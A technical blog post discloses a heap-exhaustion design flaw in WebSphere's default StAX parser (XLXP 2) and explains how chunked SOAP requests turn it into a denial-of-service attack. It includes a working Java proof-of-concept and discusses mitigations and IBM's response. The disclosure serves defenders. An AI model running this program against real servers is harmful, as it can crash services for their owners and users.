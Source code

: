 ```yaml
---
layout: post
title: "Broken by design: WebSphere's default StAX implementation (part 1)"
category: tech
tags:
 - WebSphere
 - StAX
 - Exploit
blogger: /2013/10/broken-by-design-xlxp2.html
disqus: true
description: >
 This article exposes a design flaw in WebSphere's default StAX implementation (XLXP 2) that can be exploited to perform
 a denial-of-service attack.
---
```


Recently I came across an issue in WebSphere's default StAX implementation (XLXP 2) where the parser unexpectedly consumed a
huge amount of heap. The issue was triggered by a gzipped XML file containing a base64 encoded PDF document with several
megabytes of content. A test showed that although the size of the XML document was of order of 10 MB, XLXP 2 required almost
1 GB of heap to parse the document (without any additional processing). That is of course totally unexpected: for large
documents, an XML parser should never require an amount of heap 100 times as large as the size of the XML document.

After investigating the issue (with the XLXP 2 version in WAS 8.5.0.2), it turned out that the problem with IBM's parser is
caused by the combination of three things:

*   Irrespective of the value of the `javax.xml.stream.isCoalescing` property (`XMLInputFactory.IS_COALESCING`), the parser will
    always return a text node in the input document as a single `CHARACTERS` event (where the precise meaning of "text node" is
    a sequence of [`CharData`](http://www.w3.org/TR/REC-xml/#NT-CharData) and/or [`Reference`](http://www.w3.org/TR/REC-xml/#NT-Reference)
    tokens neither preceded nor followed by a `CharData` or `Reference` token).

    For readers who are not experts in the StAX specification, this requires some additional explanations. With respect to
    coalescing, the only requirement stipulated by StAX (which is notoriously underspecified) is that enabling coalescing mode
    "requires the processor to coalesce adjacent character data". There are two interpretations of this requirement:

    *   The first one is that this requirement is simply related to how [CDATA sections](http://www.w3.org/TR/REC-xml/#sec-cdata-sect)
        are processed. If coalescing is enabled, then CDATA sections nodes are implicitly converted to text nodes and merged with
        adjacent text nodes. In non coalescing mode, CDATA sections are reported as distinct events, such that there is one and only
        one event for each text node and CDATA section in the input document. This interpretation corresponds to the definition
        of coalescing used by DOM (see `DocumentBuilderFactory#setCoalescing()`).

    *   The second interpretation goes a step further and assumes that in non coalescing mode, the parser should handle text
        nodes in a way similar to SAX, i.e. split text nodes that are larger than parser's input buffer into chunks. In this
        case, a text node is reported as one or more CHARACTERS events. This allows the parser to process text nodes of
        arbitrary length with constant memory.

    BEA's original reference implementation and XLXP 2 are based on the first interpretation, while SJSXP (the StAX
    implementation in Oracle's JRE) and Woodstox use the second interpretation. Note that for applications using StAX, this
    doesn't really make any difference because an application using a StAX parser in non coalescing mode must be written
    such that it is able to correctly process any sequence of `CHARACTERS` and `CDATA` events.

*   XLXP 2 uses a separate buffer for each read operation on the underlying input stream, i.e. for each read operation, the
    parser will either allocate a new buffer or recycle a previously created buffer that is no longer in use. That is the case
    even if the previous read operation didn't fill the buffer completely: XLXP 2 will not attempt to read data into the buffer
    used during the previous read operation. By default, the size of each buffer is 64 KB.

*   When processing character data, the buffers containing the corresponding (encoded) data from the underlying stream remain
    in use (i.e. cannot be recycled) until the data has been reported back to the application. Note that this is a design
    choice: the parser could as well have been designed to accumulate the decoded character data in an intermediary buffer
    and immediately release the original buffers.

This has two consequences:

*   When processing a text node from the input document, all buffers containing chunks of data for that text node remain in use
    until the parser reaches the end of the text node.

*   If the read operations on the underlying input stream return less than the requested number of bytes (i.e. the buffer size),
    then these buffers will only be partially filled.

This means that processing a text node may require much more memory than one would expect based on the length of that text node.
Since the default buffer size is 64 KB, in the extreme case (where each read operation on the input stream returns a single byte),
the parser may need 65536 times more memory than the length of the text node. In the case I came across, the XML document
contained a text node of around 9 million characters and the input stream was a `GZIPInputStream` which returned more or less
600 bytes per read operation. A simple calculation shows that XLXP 2 will require of order of 900 MB of heap to process that text node.

IBM's reaction to this was that XLXP 2 is "working as designed" (!) and that the issue can be mitigated with the help of two
system properties:

`com.ibm.xml.xlxp2.api.util.encoding.DataSourceFactory.bufferLength`
:   Obviously, this system property specifies the size of the buffers described earlier. Setting it to a smaller value than the
    default 65536 bytes will reduce the amount of unused space. On the other hand, if the value is too small, then this will
    obviously have an impact on performance. Note that the fact that this parameter is specified as a system property is
    especially unfortunate, because it will affect all applications running on a given WebSphere instance.

`com.ibm.xml.xlxp2.api.util.Pool.STRONG_REFERENCE_POOL_MAXIMUM_SIZE`
:   This property was introduced by APAR [PM42465](http://www-01.ibm.com/support/docview.wss?uid=swg1PM42465) and is related to
    pooling of `XMLStreamReader` objects, not buffers. Therefore it has no impact on the problem described here.

However, it should be clear by now that adjusting these system property doesn't eliminate the problem completely, unless one uses
an unreasonable small buffer size. This raises another interesting question: considering that WebSphere's JAX-WS implementation
relies on StAX and that XLXP 2 may under certain circumstances allocate an amount of heap that is several order of magnitudes
larger than the message size, isn't that a vector for a denial-of-service attack? If it's possible to construct a request that
tricks XLXP 2 into reading multiple small chunks from the incoming SOAP message, couldn't this be used to trigger an OOM error
on the target application server?

It turns out that unfortunately this is indeed possible. The attack takes advantage of the fact that when WebSphere receives a
POST request that uses the chunked transfer encoding, the Web container will deliver each chunk separately to the application.
If the request is dispatched to a JAX-WS endpoint this means that each chunk is delivered individually to the StAX parser, which
is exactly the attack vector we are looking for. To exploit this vulnerability, one simply has to construct a SOAP message with
a moderately large text node (let's say 10000 characters) and send that message to a JAX-WS endpoint using 1-byte chunks
(at least for the part containing the text node). To process that text node, XLXP 2 will have to allocate 10000 buffers, each
one 64 KB in size (assuming that the default configuration is used), which means that more than 600 MB of heap are required.

The following small Java program can be used to test if a particular (JAX-WS endpoint on a given) WebSphere instance is vulnerable:

~~~ java
public class XLXP2DoS {
  private static final String CHARSET = "utf-8";
  
  public static void main(String[] args) throws Exception {
    String host = "localhost";
    int port = 9080;
    String path = "/myapp/myendpoint";
    Socket socket = new Socket(host, port);
    OutputStream out = socket.getOutputStream();
    out.write(("POST " + path + " HTTP/1.1\r\n"
        + "Host: " + host + ":" + port + "\r\n"
        + "Content-Type: text/xml; charset=" + CHARSET + "\r\n"
        + "Transfer-Encoding: chunked\r\n"
        + "SOAP-Action: \"\"\r\n\r\n").getBytes("ascii"));
    writeChunk(out, "<s:Envelope xmlns:s='http://schemas.xmlsoap.org/soap/envelope/'>"
        + "<s:Header><p:dummy xmlns:p='urn:dummy'>");
    for (int i=0; i<10000; i++) {
      writeChunk(out, "A");
    }
    writeChunk(out, "</p:dummy></s:Header><s:Body/></s:Envelope>");
    out.write("0\r\n\r\n".getBytes("ascii"));
    socket.close();
  }
  
  private static void writeChunk(OutputStream out, String data) throws IOException {
    out.write((Integer.toHexString(data.length()) + "\r\n").getBytes("ascii"));
    out.write(data.getBytes(CHARSET));
    out.write("\r\n".getBytes("ascii"));
  }
}
~~~

The vulnerability has some features that make it rather dangerous:

*   Since the amount of heap used is several order of magnitudes larger than the message size, it is generally possible to carry
    out this attack even against application servers with a maximum POST request size configured in the
    [HTTP transport channel settings][1].

[1]: http://pic.dhe.ibm.com/infocenter/wasinfo/v7r0/topic/com.ibm.websphere.express.doc/info/exp/ae/urun_chain_typehttp.html

*   An HTTP server in front of the application server doesn't protect against the attack. The reason is that the WebSphere plug-in
    forwards the chunks unmodified to the target server. The same will be true for most types of load balancers. For reverse
    proxies other than IBM HTTP Server this may or may not be true. On the other hand, a security gateway (such as DataPower) or
    an ESB will likely protect against this attack.

*   Since the request is relatively small, it will be difficult to distinguish from other requests and to trace back to its source.

One possible way to fix this vulnerability is to use another StAX implementation, as described in a
[previous post](/2013/10/02/broken-by-design-websphere-stax.html). In fact, switching the StAX implementation for a given Java EE
application also changes the StAX implementation used to process SOAP messages for JAX-WS endpoints exposed by that application.
Since WebSphere's JAX-WS implementation is based on Apache Axis2 and Apache Axiom, and the recommended StAX implementation for
Axiom is Woodstox, that particular StAX implementation may be the best choice. Note that this may still have some unexpected
side effects. In particular, XLXP 2 is known to implement some optimizations that are designed to work together with the JAXB 2
implementation in WebSphere. Obviously these optimizations will no longer work if XLXP 2 is replaced by Woodstox. It is also not
clear if using WebSphere's JAX-WS implementation with a non-IBM StAX implementation is supported by IBM, i.e. if you will get
help if there is an interoperability issue.

**Update:** IBM finally acknowledged that there is an issue with XLXP 2 (although they avoided qualifying it as a security issue).
See the [second part](/2013/12/09/broken-by-design-xlxp2-part2.html) of this article for a discussion about the "fix" IBM applied
to solve the issue.
